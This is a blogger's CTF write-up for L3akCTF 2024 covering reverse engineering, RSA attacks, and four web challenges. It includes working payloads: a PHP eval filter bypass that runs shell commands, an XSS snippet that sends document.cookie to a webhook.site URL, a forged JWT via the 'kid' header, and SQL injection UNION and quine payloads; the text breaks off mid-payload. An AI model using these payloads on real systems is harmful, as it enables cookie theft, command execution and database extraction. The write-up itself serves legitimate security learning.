

---
# Copyright (c) Gagah Pangeran Rosfatiputra (GPR) <gpr@gagahpangeran.com>.
# Licensed under CC-BY-NC 4.0.
# Read the LICENSE file inside the 'content' directory for full license text.

title: "L3akCTF 2024 Writeup"
date: "2024-05-29T23:45:00+07:00"
featuredImage: "./img/flag.png"
tags:
  ["CTF", "Writeup", "RSA Attack", "Reverse Engineer", "XSS", "SQL Injection"]
lang: "en"
---

I solve some of the challenge using android phone while commuting on the train.

<!-- excerpt -->

Just like in [previous writeup][prevwriteup], last weekend I just open CTFTime
and register to [L3akCTF][L3akCTF] and do some solo CTF.

I solved 10 Challenges (2073 points) and got 62nd place. Not bad for doing just
for fun and doing solo. I started maybe a few hours after the event started and
not doing try hard.


Maybe I can solve more if I fully commited doing CTF for 36 hours. But I have
another things to do and on the Sunday, my family was visiting our relative's
house in the next town.

On that Sunday, I solved two challenge ([Angry](#angry) and [bbsqli](#bbsqli))
using termux on my android phone while on the trip. You can read more about it
in the [closing section](#closing-and-some-story).

Overall, I like the challenges, especially bbsqli. Because I could solve it
using only my phone and also I learn something new about SQL Quine.

Here is the table of content of this writeup.

- [Misc](#misc)
  - [Sanity Check](#sanity-check)
  - [Survey](#survey)
- [Rev](#rev)
  - [Hidden](#hidden)
  - [Angry](#angry)
- [Crypto](#crypto)
  - [Really Simple Algorithm](#really-simple-algorithm)
  - [Related](#related)
- [Web](#web)
  - [Simple calculator](#simple-calculator)
  - [I'm the CEO](#im-the-ceo)
  - [BatBot](#batbot)
  - [bbsqli](#bbsqli)

## Misc

I only solve bonus challenge in misc. So nothing interesting here.

### Sanity Check

_Score: 50 (366 Solves)_

I lost the sanity check flag somewhere in our discord server, help me find it :)

`https://discord.gg/wjSVdt3a7G`

**Solution**

Just join the discord server and found it in `#rules` channel.


**Flag**

```txt
L3AK{W3lc0ME_To_L34k_CTF!}
```

### Survey

_Score: 50 (120 Solves)_

You spent 36 hours playing our CTF. Please take 5 minutes to fill out this
survey 😊

Author: `L3AK-TEAM`

https://shorturl.at/aEZyl

**Solution**

Just fill out the survey.


**Flag**

```txt
L3AK{thanks_for_the_honest_feedback_hope_to_see_you_next_year}
```

## Rev

The reverse engineer challenges that I solved here is very straightforward.

As a heads up, I renamed some of the variable and function name in ghidra so it
is easier to read. So, the code might be a little bit different when you open
the files using ghidra.

### Hidden

_Score: 50 (194 Solves)_

We all start with baby steps.

Author: `0xnil`

file: [hidden](./files/hidden)

**Solution**

Let's open this file in ghidra.


We can see that out input `flag` should be the same as `target` value. The
`target` value itself is coming from the `check()` function, but we can just
ignore it.

Let's run it using gdb to see the actual value of `target`.


**Flag**

```txt
L3AK{b4by_sT3Ps}
```

### Angry

_Score: 310 (66 Solves)_

Symbolic go vroom vroom

Author: `0xnil`

file: [angry_patched_skill_issues](./files/angry_patched_skill_issues)

**Solution**

> _Note: I code the solution of this problem using android phone,
> [read more about it](#closing-and-some-story)._

Let's open it in ghidra.


We can see that there are two `check` function. Let's see what's inside it.


There are some math calculation involved, but it should be pretty
straightforward to solve.

But before that, let's see what's inside `get_len()` function so we know the
length of the flag.


Here is the solution (with some guessing character). Maybe I should use sympy to
solve some math equation instead of manually doing it.

```python
n = 37
flag = ['*' for i in range(n)]

flag[34] = 'l'
flag[35] = 'y'
flag[36] = '}'
flag[8] = 'r'
flag[9] = '_'
flag[23] = 'o'
flag[29] = '4'
flag[33] = 'l'
flag[30] = 'n'
flag[27] = '_'
flag[24] = '_'
flag[22] = 'd'
flag[18] = '0'
flag[19] = 'n'
flag[20] = 't'
flag[6] = 'n'
flag[11] = '_'
flag[12] = 'l'
flag[7] = chr(int(10609**(1/2)))
flag[1] = chr(ord(flag[33]) - 57)
flag[10] = chr(0x34)
flag[2] = 'A'
flag[0] = 'L'
flag[3] = 'K'
flag[4] = '{'
flag[32] = chr(160 - ord(flag[33]))
flag[31] = chr(193 - ord(flag[34]))
flag[17] = chr(156 - ord(flag[33]) + ord(flag[32]))
flag[21] = chr(ord(flag[17]) ^ 59)
flag[5] = 'a'
flag[25] = chr(8 + ord(flag[5]))
flag[16] = chr(85 + ord(flag[25]) - ord(flag[21]))
flag[15] = chr((4844 + ord(flag[7])) // ord(flag[5]))
flag[14] = chr(348 - (ord(flag[17]) + ord(flag[15]) + ord(flag[16])))
flag[28] = chr(99 + ord(flag[25]) - ord(flag[21]))
flag[26] = 't'
flag[13] = 'd'

print(''.join(flag))
```

**Flag**

```txt
L3AK{angr_4_ldf3_d0nt_do_it_m4nU4lly}
```

_I did it manually anyway._

## Crypto

I solved two crypto challenges. Both are classic RSA attack challenges.

### Really Simple Algorithm

_Score: 397 (49 Solves)_

Like I said, it's really simple!

Author: `Suvoni`

`nc 193.148.168.30 5668`

file: [server.py](./files/server.py)

**Solution**

Let's see what's inside the `server.py` file.

```python
from Crypto.Util.number import getPrime, bytes_to_long as btl

menu = '''(1) Encrypt Message
(2) Receive Flag
(3) Exit'''

e = 1337
size = 1024
flag = open('flag.txt', 'r').read().rstrip()

print('Welcome to the L3ak Really Simple Algorithm (RSA) Encryption Service™!')
print('Here you can encrypt your own message, or choose to receive the encrypted flag.')
print('Good luck!\n')

while True:

    p, q = getPrime(size), getPrime(size)
    n = p*q
    print(menu)

    option = int(input('Select Option: '))
    if option == 1:
        message = btl(input('Your Message: ').encode())
        enc_msg = pow(message, e, n)
        print(f'n = {n}')
        print(f'c = {enc_msg}')
    elif option == 2:
        enc_flag = pow(btl(flag.encode()), e, n)
        print(f'n = {n}')
        print(f'flag = {enc_flag}')
    elif option == 3:
        print('Goodbye!')
        exit()
    else:
        print('Invalid choice! Please try again.')
```

You can see that the option 2 of this program will produce different encrypted
message with different `n` but with the same original message.

This is clearly [Håstad's broadcast attack][hastad]. You can read more about it
[here][morehastad].

Using the hastad attack code from [here][hastadcode], here is the solution.

```python
from Crypto.Util.number import GCD, long_to_bytes
import gmpy2
from pwn import *

def crt(list_a, list_m):
    try:
        assert len(list_a) == len(list_m)
    except:
        return -1
    for i in range(len(list_m)):
        for j in range(len(list_m)):
            if GCD(list_m[i], list_m[j])!= 1 and i!=j:
                return -1
    M = 1
    for i in list_m:
        M *= i
    list_b = [M//i for i in list_m]
    assert len(list_b) == len(list_m)
    try:
        list_b_inv = [int(gmpy2.invert(list_b[i], list_m[i])) for i in range(len(list_m))]
    except:
        return -1
    x = 0
    for i in range(len(list_m)):
        x += list_a[i]*list_b[i]*list_b_inv[i]
    return x % M

def hastad_unpadded(ct_list, mod_list, e):
    m_expo = crt(ct_list, mod_list)
    if m_expo != -1:
        eth_root = gmpy2.iroot(m_expo, e)
        if eth_root[1] == False:
            return -1
        elif eth_root[1] == True:
            return long_to_bytes(eth_root[0])
    else:
        return -1

e = 1337

n = []
c = []

# p = process('./server.py')
p = remote('193.148.168.30', 5668)

p.recvuntil(b'Select Option: ')

while len(n) != e and len(c) != e:
    assert(len(n) == len(c))
    print(len(n))
    p.sendline(b'2')
    r = p.recvuntil(b'Select Option: ').decode()
    ls = r.split('\n')
    for s in ls:
        if 'n = ' in s:
            num = int(s.split()[-1])
            n.append(num)
        elif 'flag = ' in s:
            ct = int(s.split()[-1])
            c.append(ct)

print(len(n))
m = hastad_unpadded(c, n, e)
print(m)
```

**Flag**

```txt
L3AK{H4sTAD5_bR0aDc45T_4TtacK_1s_pr3tTy_c0ol!}
```

### Related

_Score: 448 (35 Solves)_

I encrypted my flag twice with RSA, so I added some random padding just to be
safe! Surely there's nothing wrong with my method...right??

Author: `S1mple`

file: [Related.zip](./files/Related.zip)

**Solution**

Given two files `chal.py` and `out.txt`. Let's see the challenge code.

```python
import random
from flag import FLAG
from Crypto.Util.number import getPrime, bytes_to_long, long_to_bytes

p = getPrime(1024)
q = getPrime(1024)
n = p * q
e = 0x101

def pad(flag):
    m = bytes_to_long(flag)
    a = random.randint(2, n)
    b = random.randint(2, n)
    return (a, b), a*m+b

def encrypt(flag):
    padded_variables, padded_message = pad(flag)
    encrypted = pow(padded_message, e, n)
    return padded_variables, encrypted

variables, ct1 = encrypt(FLAG)
a1 = variables[0]
b1 = variables[1]

variables, ct2 = encrypt(FLAG)
a2 = variables[0]
b2 = variables[1]

print(f"{n = }")
print(f"{a1 = }")
print(f"{b1 = }")
print(f"{ct1 = }")
print(f"{a2 = }")
print(f"{b2 = }")
print(f"{ct2 = }")
```

We are given two different encrypted messages with the same `n` but with
different `a` and `b` as padding.

$$
\begin{align*}
c_1 &= (a_1 m + b_1)^e \mod n \\
c_2 &= (a_2 m + b_2)^e \mod n
\end{align*}
$$

We can see that those two equation is related and only differ by value $a$ and
$b$. This is the case of [Franklin–Reiter related-message attack][franklin]. You
can read more about it [here][morefranklin].

Using the exploit code from [here][franklincode], here is the solution using
sage math.

```python
from sage.all import *
from Crypto.Util.number import long_to_bytes

n = 23446116820809956009508921267229329419806339208735431213584717790131416299556366048048977867380629435292555358502917305856047632651197352306945681062223443217527823509039445684919455982744684852068434951030105274549124012946448685060750456093120953320196777137936137902703756422225716380021864017594031233341531336018572970546112899850343992552126107820367629786159724290948728494321350895295087900001068499072242213916345639268473176748281877628559969801359815109260695490545357491404689132480248206287353580339535458835525161032145136894301169515951010316007454927062229765757932923091679510627796469997185047770119
a1 = 8104040836262507446864591234691358718164908580334110843106050982408624642389131164005601569999434432648709609777743793997208912520844943698036947408725027128235833538793471035056805185723079446135588491317378316082567779128276652380455054959975686544145446500257748715018799178783100289455255670805079936852471138049711583797615770901244436979110584710970079641409159097959783566594440737682826559724447739807028855072087914855150495360099989261682566388742966224528680792157619533719489447251411976029565538810357759752921276377948448704648350306514866111068184157760563297810978279434204440014428745729905509605285
b1 = 1728445028759460100268916851157941317747744991464848324630394207912877842639961858831903114707815701742483947978256582554473425946268457939887471248397622887505458768276338958573804608581353987536415380192782284575648580559755923454408763552113403890642303139141765381991794536720006159278517578791058556250982111713910060167032647218698362613084823406687399478088149985930840603408274198692032083156828441656375986195794109996772306557258447129571560905620272546405603257541870547380051900022925294193741417962861863860715434297040138205460211370506997331099668562619882982110566078451957682401843673938997454325985
ct1 = 7133574145118001624468851232768367610776481589816189114081484875167835285211475440236501712634938993477027789627285581268361018888589847771555770716521123959004389671272089766710340921550798461319697963644164596608774387203602804547184454077314801365322929817266934087883757605888082111393091270686060676504784482770435773757625762542094784777964406426404482882414828990658303263295993951921074284755818657012216398826105099627761519486438690405668440835527144374828045319113524249938249744799530870449189528166252037249009094063960558703857141043081099174412277124506544776530125652348821688752923438304710034397792
a2 = 6932198124642373427967232343817468902255209063707505631753623131468591968939116907766874533903771236309508029958603993113318003707536772796355326212684792901937391081839814883783063784050698582961314998290360613480778658142959804536224436521802834308095784814005774038096434723020316915995654759582638114351622288228138452404715021874261743824588698845194567350953613460211780903933501965152586633117799392776012574047439430079820078546000748259648002297803211427390366076552057374120223207399161502626197672749700677144769182115211864885324511059266535644202147069163420794861424973102200053615106664642762054707456
b2 = 17570492860498497589391311850810042101436988882059207563836745301643757694348737390349588510867234608796253222240056487274815481193573640552151307710984790365040907600873879523821340341063776797845384078798440533883164972773525749702026085462782235008812515983104980108840777316735468521572249232663287631112374534186975231033281807029801530398687397396929300293283833448151885674196708775598652356402354479252567714152805778278207736053329489014866155493921442482258381840272615320018058870234668488517354399053820878325928972260161611818894133121294554947400621261460441395783860055835185154356326202402937413717222
ct2 = 8778761624514690203726370366823530128900480928985439769115219364620387269991756967930541323829570453896164780238656562595733025340650482503284244625778872560261904887674968133049252085507078563540106328260114811619983171932648876602484063356832075687231100750407167402096299904835776594509894740386041222719008023556447633524625419665210188090816622517361786836014525679069179481575048514551967532281399777505866483289055530051032001545010914680661193107730444980281645735808124289602346876529763644878375393094200846185413267940739865639764057094273259729425291615810027734657664217752026488492540376475948687563210
e = 0x101

def gcd(a, b):
    while b:
        a, b = b, a % b
    return a.monic()

P.<X> = PolynomialRing(Zmod(n))
g1 = (a1*X + b1)^e - ct1
g2 = (a2*X + b2)^e - ct2

result = -gcd(g1, g2).coefficients()[0]
print(long_to_bytes(int(result)))
```

**Flag**

```txt
L3AK{r3l4teD_m3s54GeS_Ar3_1nS3cuR3_1n_RsA}
```

## Web

I solve four web challenges. My favorite challenge in this event is `bbsqli`
from this web category.

### Simple calculator

_Score: 50 (101 Solves)_

Unveil PHP Secrets.

Author: `S1mple`

http://45.129.40.107:9668/

file: [simple_calculator_updated.zip](./files/simple_calculator_updated.zip)

**Solution**

Given 3 files `Dockerfile`, `flag.txt`, and `index.php`. First, let's see what's
inside `index.php`.

```php
<?php

function popCalc() {
    if (isset($_GET['formula'])) {
        $formula = $_GET['formula'];
        if (strlen($formula) >= 150 || preg_match('/[a-z\'"]+/i', $formula)) {
            return 'Try Harder !';
        }
        try {
            eval('$calc = ' . $formula . ';');
            return isset($calc) ? $calc : '?';
        } catch (ParseError $err) {
            return 'Error';
        }
    }
}

$result = popCalc();
echo "Result: " . $result;

?>
```

We can see that there is an `eval` function that we can exploit. But there is a
regex filter `/[a-z\'"]+/i`.

First thing that comes to my mind when saw this is some kind of bypass using PHP
xor sting like [this][phpxor]. Then I realize character `'` and `"` are not
allowed.

Then I read documentation about PHP string and found about [heredoc
syntax][phpheredoc]. This should be exploitable, _but how?_

After some more internet searching, I found [this writeup][otherwriteup] about
bypassing PHP filter with no letter or quotes. The regex is the same the one in
this challenge.

In heredoc syntax, octal notation can be used as character for the string. So I
crafted the payload of command `("exec")("cat flag.txt")`. Also I should encode
it as URL parameter.

So here is the solution.

```python
from urllib.parse import quote

def convert(s):
    return ''.join(['\\' + str(oct(ord(i)))[2:] for i in s])


s = convert('exec')
t = convert('cat flag.txt')

q = f'''(<<<_
{s}
_)(<<<_
{t}
_)'''

print(quote(q))
```

```txt
%28%3C%3C%3C_%0A%5C145%5C170%5C145%5C143%0A_%29%28%3C%3C%3C_%0A%5C143%5C141%5C164%5C40%5C146%5C154%5C141%5C147%5C52%5C56%5C164%5C170%5C164%0A_%29
```

I open the URL using Postman, but the result is empty.

_What's wrong?_

I checked again and read the `Dockerfile`.

```dockerfile
FROM php:7.4-apache
RUN useradd -m ctfuser

RUN chown -R root:root /home/ctfuser
RUN chmod 755 /home/ctfuser
RUN chmod 555 /tmp

WORKDIR /var/www/html

COPY --chown=root:root index.php .
COPY --chown=root:root flag.txt .

USER root

RUN mv /var/www/html/flag.txt /var/www/html/flag-$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 64 | head -n 1).txt
RUN chmod 444 *
RUN chmod 555 /var/www/html

USER ctfuser

CMD ["apache2-foreground"]
```

We can see that the `flag.txt` file is renamed into `flag-<random string>.txt`.

Eh, that's easy. We can just change the command to `cat flag*.txt`.

Here is the final payload.

```txt
%28%3C%3C%3C_%0A%5C145%5C170%5C145%5C143%0A_%29%28%3C%3C%3C_%0A%5C143%5C141%5C164%5C40%5C146%5C154%5C141%5C147%5C52%5C56%5C164%5C170%5C164%0A_%29
```


**Flag**

```txt
L3AK{PhP_Web_Ch@ll3ng3}
```

### I'm the CEO

_Score: 50 (131 Solves)_

As the CEO of a company, I made a quite unique notes app. Check it out!

Author: `ahh`

http://45.129.40.107:9670/ | http://45.129.40.107:9671/

file: [im_the_ceo.zip](./files/im_the_ceo.zip)

**Solution**

We are given two website. The first one is to create a note and the second is to
visit the note using admin bot. This is clearly some kind of XSS challenge.

First, let's see what's inside `bot/bot.js` files.

```js
//code taken from : https://github.com/dimasma0305/CTF-XSS-BOT/tree/main/bot
const puppeteer = require("puppeteer");

const CONFIG = {
  APPNAME: process.env["APPNAME"] || "Admin",
  APPURL: process.env["APPURL"] || "http://172.17.0.2:8080",
  APPHOST: process.env["APPHOST"] || "172.17.0.2",
  APPFLAG: process.env["APPFLAG"] || "L3AK{test_flag}",
  APPLIMITTIME: Number(process.env["APPLIMITTIME"] || "60"),
  APPLIMIT: Number(process.env["APPLIMIT"] || "5")
};

console.table(CONFIG);

function sleep(s) {
  return new Promise(resolve => setTimeout(resolve, s));
}

const initBrowser = puppeteer.launch({
  executablePath: "/usr/bin/chromium-browser",
  headless: true,
  args: [
    "--disable-dev-shm-usage",
    "--no-sandbox",
    "--disable-setuid-sandbox",
    "--disable-gpu",
    "--no-gpu",
    "--disable-default-apps",
    "--disable-translate",
    "--disable-device-discovery-notifications",
    "--disable-software-rasterizer",
    "--disable-xss-auditor"
  ],
  ipDataDir: "/home/bot/data/",
  ignoreHTTPSErrors: true
});

console.log("Bot started...");

module.exports = {
  name: CONFIG.APPNAME,
  urlRegex: `^${CONFIG.APPURL}/.*$`,
  rateLimit: {
    windowS: CONFIG.APPLIMITTIME,
    max: CONFIG.APPLIMIT
  },
  bot: async urlToVisit => {
    const browser = await initBrowser;
    const context = await browser.createBrowserContext();
    try {
      // Goto main page
      const page = await context.newPage();

      // Set Flag
      await page.setCookie({
        name: "flag",
        httpOnly: false,
        value: CONFIG.APPFLAG,
        domain: CONFIG.APPHOST
      });
      let cookies = await page.cookies();
      console.log(cookies);
      // Visit URL from user
      console.log(`bot visiting ${urlToVisit}`);
      await page.goto(urlToVisit, {
        waitUntil: "networkidle2"
      });
      await sleep(8000);
      cookies = await page.cookies();
      console.log(cookies);

      // Close
      console.log("browser close...");
      await context.close();
      return true;
    } catch (e) {
      console.error(e);
      await context.close();
      return false;
    }
  }
};
```

We can see that the admin bot set the cookie `flag`. What we can do is steal
this cookie by using some kind of XSS attack in out note page.

The app itself is using htmx. I did not know much about htmx itself. I just try
to use `<script>` tag directly in my notes and see whats happen.

First, we set up our webhook in https://webhook.site.

Then we craft out payload with something like this.

```html
<script>
  fetch("https://webhook.site/<UUID>/?cookie=" + document.cookie);
</script>
```

Replace the `<UUID>` with the UUID you get from the webhook website.

The exploit here is that when the admin bot visit our note page. We read the
cookie in `document.cookie` object and then fetch our webhook with query param
of that cookie.

Now let's try to give our note page URL to admin bot.



Let's change the IP to use that local IP.


Now let's see what we get in our webhook.


**Flag**

```txt
L3AK{I_should_have_read_https://htmx.org/essays/htmx-sucks/}
```

### BatBot

_Score: 247 (76 Solves)_

Author: `xhalyl`

file: [BatBot.zip](./files/BatBot.zip)

**Solution**

We are given discord bot source code.

````python
import discord
from discord.ext import commands
import jwt
import os

intents = discord.Intents.all()
bot = commands.Bot(command_prefix="!", intents=intents)

BOT_TOKEN = os.getenv('TOKEN')
SECRET_KEY_FILE_PATH = 'secret.txt'
FLAG_FILE_PATH = 'flag.txt'

with open(FLAG_FILE_PATH, 'r') as file:
    flag = file.read().strip()

bot.remove_command('help')

def verify_jwt(token):
    try:
        header = jwt.get_unverified_header(token)
        kid = header['kid']
        assert ("/" not in kid)
        with open(kid, 'r') as file:
            secret_key = file.read().strip()
        decoded_token = jwt.decode(token, secret_key, algorithms=['HS256'])
        return decoded_token
    except Exception as e:
        return str(e)

@bot.event
async def on_ready():
    print(f'Logged in as {bot.user}')

@bot.command(name='help')
async def custom_help(ctx):
    help_message = """
    *Help Command*:```
 !help (Shows this message)
 !verify token  (Authenticate with a JWT token)
 !generate (Generate a JWT Token for you)```
    """
    await ctx.send(help_message)

@bot.command(name='verify')
async def authenticate(ctx, *, token=None):
    try:
        if isinstance(ctx.channel, discord.DMChannel) == False:
            await ctx.send("I can't see here 👀 , DM me")
        else:
            result = verify_jwt(token)
            print(ctx.author)
            print(result)
            if isinstance(result, dict):
                username = result.get('username')
                role = result.get('role')
                if username and role=='VIP':
                    await ctx.send(f'Welcome Sir! Here is our secret {flag}')
                elif username:
                    await ctx.send(f'Welcome {username}!')
                else:
                    await ctx.send('Authentication failed. Please try again.')
            else:
                await ctx.send('Authentication failed.')
    except:
        await ctx.send('Authentication failed.')

@bot.command(name='generate')
async def generate_token(ctx, *, username=None):
    try:
        if isinstance(ctx.channel, discord.DMChannel) == False:
            await ctx.send("I can't see here 👀 , DM me")
        elif not username:
            await ctx.send("Please provide a username.")
        else:
            with open(SECRET_KEY_FILE_PATH, 'r') as file:
                secret_key = file.read().strip()
            headers = {
                'kid': SECRET_KEY_FILE_PATH
            }
            token = jwt.encode({'username': username,'role' : 'user'}, secret_key, algorithm='HS256',headers=headers)
            await ctx.send(f'The generated JWT token for {username} is: {token}')
    except:
        await ctx.send('Failed to generate token.')


bot.run(BOT_TOKEN)
````

We can see that this bot has two important command, `generate` and `verify`. The
bot can be found in L3akCTF discord server. Let's test the command.


Now, we can see that in `verify_jwt` function, there is code where it is using
`get_unverified_header` method. This looks like expoitable because they use
value from unverified header to do something.

After some searching, I found [this writeup][botwriteup] and it exploit the same
`get_unverified_header` method.

```python
def verify_jwt(token):
    try:
        header = jwt.get_unverified_header(token)
        kid = header['kid']
        assert ("/" not in kid)
        with open(kid, 'r') as file:
            secret_key = file.read().strip()
        decoded_token = jwt.decode(token, secret_key, algorithms=['HS256'])
        return decoded_token
    except Exception as e:
        return str(e)
```

We can see that, they use value of `kid` from the header as a path location to
open the secret file. And then they verify the token using the content of that
file as a secret key.

We can exploit this by changing the `kid` value to `bot.py`. We assume that the
content of this file is identical with the server.

Now we can create the new JWT using `bot.py` file as the secret key and it will
get verified in the server.

Now what kind of info we have to change to get the flag.

```python
result = verify_jwt(token)
print(ctx.author)
print(result)
if isinstance(result, dict):
    username = result.get('username')
    role = result.get('role')
    if username and role=='VIP':
        await ctx.send(f'Welcome Sir! Here is our secret {flag}')
    elif username:
        await ctx.send(f'Welcome {username}!')
    else:
        await ctx.send('Authentication failed. Please try again.')
else:
    await ctx.send('Authentication failed.')
```

We can see that if our role is VIP, the bot will give us the flag.

So here is the solution.

```python
import jwt

SECRET_KEY_FILE_PATH = 'bot.py'

with open(SECRET_KEY_FILE_PATH, 'r') as file:
    secret_key = file.read().strip()

headers = {
    'kid': SECRET_KEY_FILE_PATH
}

username = 'gpr'
role = 'VIP'

token = jwt.encode({'username': username,'role' : role}, secret_key, algorithm='HS256',headers=headers)

print(token)
```

Now we give this token to the bot.


**Flag**

```txt
L3ak{N3V3R_L3AK_THE_C0DE!}
```

### bbsqli

SO Classic !

Author: `xhalyl`

http://45.129.40.107:9676/

file: [bbsqli.zip](./files/bbsqli.zip)

**Solution**

> _Note: I solve this problem using android phone,
> [read more about it](#closing-and-some-story)._

Given a flask app, we can guess what kind of challenge it is based on the title.
Yup, it's sql injection.

```python
from flask import Flask, render_template, request, redirect, url_for, session
import sqlite3
import hashlib
import os
from utils import generate,hash_password

app = Flask(__name__)
app.secret_key = generate(60)


FLAG = os.getenv('FLAG')

def init_db():
    conn = sqlite3.connect('l3ak.db')
    cursor = conn.cursor()
    cursor.execute('''
        CREATE TABLE IF NOT EXISTS users (
            id INTEGER PRIMARY KEY,
            username TEXT NOT NULL,
            email TEXT NOT NULL,
            password TEXT NOT NULL
        )
    ''')
    cursor.execute('''
        CREATE TABLE IF NOT EXISTS flags (
            id INTEGER PRIMARY KEY,
            flag TEXT NOT NULL
        )
    ''')
    conn.commit()
    conn.close()

def add_flag(flag):
    conn = get_db_connection()
    cursor = conn.cursor()
    cursor.execute('INSERT INTO flags (flag) VALUES (?)', (flag,))
    conn.commit()
    conn.close()


def add_user(username,email, password):
    conn = get_db_connection()
    cursor = conn.cursor()
    hashed_password = hash_password(password)
    cursor.execute('INSERT INTO users (username,email, password) VALUES (?,?, ?)', (username,email, hashed_password))
    conn.commit()
    conn.close()

init_db()

def get_db_connection():
    conn = sqlite3.connect('l3ak.db')
    conn.row_factory = sqlite3.Row
    return conn


add_user("admin","l3aker@l3ak.com",hash_password(generate(30)))
add_flag(FLAG)


@app.route('/')
def index():
    return redirect(url_for('login'))

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
       try:
        username = request.form['username']
        password = request.form['password']
        conn = get_db_connection()
        cursor = conn.cursor()
        cursor.execute(f'SELECT username,email,password FROM users WHERE username ="{username}"')
        user = cursor.fetchone()
        conn.close()
        if user and user['username'] == username and user['password'] == hash_password(password):
            session['username'] = user['username']
            session['email'] = user['email']
            return redirect(url_for('dashboard'))
        else:
            return render_template('login.html', error='Invalid username or password')
       except:
           return render_template('login.html', error='Invalid username or password')
    return render_template('login.html')

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form['username']
        email = request.form['email']
        password = request.form['password']
        conn = get_db_connection()
        cursor = conn.cursor()
        cursor.execute('SELECT username FROM users WHERE username = ?', (username,))
        existing_user = cursor.fetchone()
        if existing_user:
            return render_template('register.html', error='Username already exists')
        add_user(username, email, password)
        return redirect(url_for('login'))
    return render_template('register.html')

@app.route('/dashboard')
def dashboard():
    if 'username' in session:
        username = session['username']
        email = session['email']
        return render_template('dashboard.html', user=username,email=email)
    return redirect(url_for('login'))

@app.route('/logout')
def logout():
    session.pop('username', None)
    return redirect(url_for('login'))

if __name__ == '__main__':
    app.run()
```

We can see that there are two tables, `users` and `flags`. Also you can see
there is only one query that using the python format string. This query can be
exploited.

```python
cursor.execute(f'SELECT username,email,password FROM users WHERE username ="{username}"')
user = cursor.fetchone()
conn.close()
if user and user['username'] == username and user['password'] == hash_password(password):
    session['username'] = user['username']
    session['email'] = user['email']
    return redirect(url_for('dashboard'))
```

After the query is executed, we can see that they compare the value of our
`username` and `password` form input with the value of `username` and `password`
from database. Then it assign the value `username` and `email` from database
into the session.

Let's see what's inside the `dashboard` template.

<!-- prettier-ignore-start -->
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dashboard</title>
    <link rel="stylesheet" href="{{ url_for('static', filename='styles.css') }}">
</head>
<body>
    <div class="container">
        <h2>Welcome, {{ user }}!</h2>
        <p>Email: {{ email }}</p>
        <a href="{{ url_for('logout') }}">Logout</a>
    </div>
</body>
</html>
```
<!-- prettier-ignore-end -->

This page is showing the value of `user` and `email` from the session.

Now, the idea for the exploit is that we somehow get the flag from the `flags`
table and then insert it into the `email` value of query result. That flag will
be assigned into `email` value in session and then we can get it in dashboard
page.

Add some print statement so we can monitor what kind of result we get.

```python
q = f'SELECT username,email,password FROM users WHERE username ="{username}"'
print('query', q)
cursor.execute(q)
user = cursor.fetchone()
print('result', dict(user))
```

Let's run the app locally and register user, for example:

- username: `c`
- email: `c@c.com`
- password: `c`

We can use SQL injection union attack with some join table statement to get the
flag from `flags` table. Here is the payload for the username.

```sql
" union
select a.username as username, b.flag as email, a.password as password from users a
join flags b on a.id = b.id;--
```

The login is invalid, but we can check the result from the terminal.


We successfully get the flag into the `email` result, but the username and
password are from the user `admin`. How can we use our own registered user?

We know that the id of the flag in `flags` table is always `1`. We can just
change the condition of our join statement to match our own user ID.

For example, in this local testing, we know that user `c` has id `2`. So, we can
change the the query to something like this.

```sql
" union
select a.username as username, b.flag as email, a.password as password from users a
join flags b on a.id-1 = b.id;--
```

Notice that now the join condition is `a.id-1 = b.id`. It is because `a.id` is
our user ID and `b.id` ID the flag ID.

Let's test again and see the result.


The login still failed, but now the query result is our own registered user.

Now, how can we know what is the user ID in the remote server?

We do the same way, by using the SQL injection to get ID into `email` session
value.

```sql
" union
select username, id as email, password from users
where username='c';--
```

Now, we test again.


The login still failed, but now we get ID in `email` result.

Now, what's the thing that prevent us to successfully login and get into
dashboard?

```python
if user and user['username'] == username and user['password'] == hash_password(password):
    session['username'] = user['username']
    session['email'] = user['email']
```

We can see that, the `user['username']` and `user['password']` value from query
result must be the same with `username` and `password` value that we input.

The password itself is not a problem. But we can see that the value of
`username` is our SQL injection payload and the `user['username']` result must
be the same as our own payload.

_WHAT?_

Basically, we have to make query that produce itself as a result.

When I was solving this, I remember something like self producing code from
[International Obfuscated C Code Contest][IOCCC]. I search about it and found
out it is called [Quine][quine].

More searching with keyword `SQL quine`, I found two CTF writeup, [sqli
DUCTF][ductfwriteup] and [LockPickDuck v3 HKCert10 CTF][hkwriteup].

After reading how create a SQL quine and using the code from there. We can
create the solution like this.

```python
def quine(query: str) -> str:
    query = query.replace('$$', "REPLACE(REPLACE($$,CHAR(34),CHAR(39)),CHAR(36),$$)")
    blob = query.replace('$$', '"$"').replace("'", '"')
    query = query.replace('$$', "'" + blob + "'")
    print(query)

username = 'c'
id = 2

q1 = f'''" union
select
  case username
    when 'r4nd0m' then 'r4nd0m'
    else $$
  end username,
id as email, password
from users
where username='{username}';--'''

q2 = f'''" union
select
  case a.username
    when 'r4nd0m' then 'r4nd0m'
    else $$
  end username,
b.flag as email, a.password as password
from users a
join flags b on a.id-{id-1} = b.id;--'''

quine(q1)
print('---')
quine(q2)
```

The idea is that we replace the result of `username` with our own query. You can
see that `$$` character will be replace with some kind of `REPLACE` function to
produce SQL Quine.

Run the solution and we get these two queries.

```sql
" union
select
  case username
    when 'r4nd0m' then 'r4ndom'
    else REPLACE(REPLACE('" union
select
  case username
    when "r4nd0m" then "r4ndom"
    else REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")
  end username,
id as email, password
from users
where username="c";--',CHAR(34),CHAR(39)),CHAR(36),'" union
select
  case username
    when "r4nd0m" then "r4ndom"
    else REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")
  end username,
id as email, password
from users
where username="c";--')
  end username,
id as email, password
from users
where username='c';--
---
" union
select
  case a.username
    when 'r4nd0m' then 'r4ndom'
    else REPLACE(REPLACE('" union
select
  case a.username
    when "r4nd0m" then "r4ndom"
    else REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")
  end username,
